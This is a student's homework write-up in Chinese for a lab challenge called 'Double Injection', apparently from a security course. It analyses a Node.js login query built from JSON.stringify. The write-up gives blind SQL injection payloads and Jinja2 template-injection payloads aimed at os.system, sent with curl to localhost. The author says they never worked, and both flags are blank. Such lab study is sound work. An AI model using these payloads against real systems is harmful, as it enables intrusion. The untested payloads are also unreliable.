

# HW4 Writeup

- 學號：`109550206`

## Double Injection - FLAG1

- Flag：``

### 解題流程與思路
**解題過程：**
1. 可以觀察到其有一個 sql 指令可以進行 injection。
```js
const { username, password } = req.body;
const jsonPath = JSON.stringify(`$.${username}.password`);
const query = `SELECT json_extract(users, ${jsonPath}) AS password FROM db`;
```
2. 卡死，不會閉合 `"`，由於 JSON.stringify 會 escape 內文的 `"` 並外加一層 `"`，後原本想改 username 的 type 成 list 或 escape \` in stringify with `,` ，但似乎沒什麼意義。理論上閉合或 ignore 前面的 sql 可以設法使 password 找成 admin 的 (flag) 並分別 check 其長度、每個字元 ASCII，可以透過使其 sleep 或 crash 或控制 row.password 值，來確認其是否為 true。即可搜到 flag。 
```
x='admin.password%22) AS password FROM db and length(password)>5 --'

x2="admin.password) AS password FROM db and ascii(mid(password,1,1))>80' -- ("

y="guest"
curl -v -X POST -d \
         "username=$x&password=$y" \
         http://localhost:3000/login
```


**取得 flag 的畫面：**

## Double Injection - FLAG2

- Flag：``

### 解題流程與思路
**解題過程：**
1. 這題理想上很簡單，直接套 Jinja2 SSTI 應該可以開出 shell ，但前提拿到 flag，才能設使其進入 const html = ejs.render(template, { username }); 並調整 username 中包含可以開出 system 的部分，接著 ls 跟 cat 應該可以拿到。不過也卡閉合問題，無從驗證。
```
x="admin.password) AS password FROM db; -- {{ lipsum.__globals__['os'].system }}"

x2="admin.password) AS password FROM db; -- {{ ().__class__.__base__.__subclasses__()[132].__init__.__globals__['system'] }}"

y="null"

curl -v -X POST -d \
         "username=$x&password=$y" \
         http://localhost:3000/login
```
**取得 flag 的畫面：**